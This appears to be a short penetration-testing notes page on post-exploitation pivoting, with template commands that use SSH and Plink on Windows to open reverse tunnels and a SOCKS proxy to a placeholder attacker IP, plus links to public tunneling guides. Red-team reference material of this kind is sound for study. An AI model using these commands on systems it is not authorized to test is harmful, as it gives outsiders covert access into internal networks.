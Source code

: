 # SSH

## 01 - SSH

TODO: Fill this info and refer to the links below

### 1.1 - Scenarios

#### 1.1.1 - Reverse Tunneling SOCKS Proxy

```
C:\> ssh -o StrictHostKeyChecking=no -N -R <SOCKS_PORT> <username>@<attacker_IP>
```

## 02 - Plink

### 2.1 - Usage

```
C:\> cmd.exe /c echo y | plink.exe -ssh -l <username> -pw <password> -R <attacker_IP>:<local_PORT>:<bind_IP>:<bind_PORT> <attacker_IP> -P <PORT>
```

- Note: You can do the full path if you wish

```
C:\> c:\windows\system32\cmd.exe /c echo y | plink.exe -ssh -l <username> -pw <password> -R <attacker_IP>:<local_PORT>:<bind_IP>:<bind_PORT> <attacker_IP> -P <PORT>
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/07 - Pivoting and Lateral Movement/Pivoting/Linux/Port Forwarding/SSH/Metasploit/Metasploit|Metasploit]]

- [TrustedSec: The SOCKS We Have at Home](https://trustedsec.com/blog/the-socks-we-have-at-home)

- [NetSPI: How to Access RDP Over a Reverse SSH Tunnel](https://www.netspi.com/blog/technical/technical-vulnerability-management/how-to-access-rdp-over-a-reverse-ssh-tunnel/)

- [SlayerLabs: Tunneling Quick Guide](https://posts.slayerlabs.com/tunneling-quick-guide/)

- [Catharsis Network Pivoting and Tunneling Guide](https://catharsis.net.au/blog/network-pivoting-and-tunneling-guide/)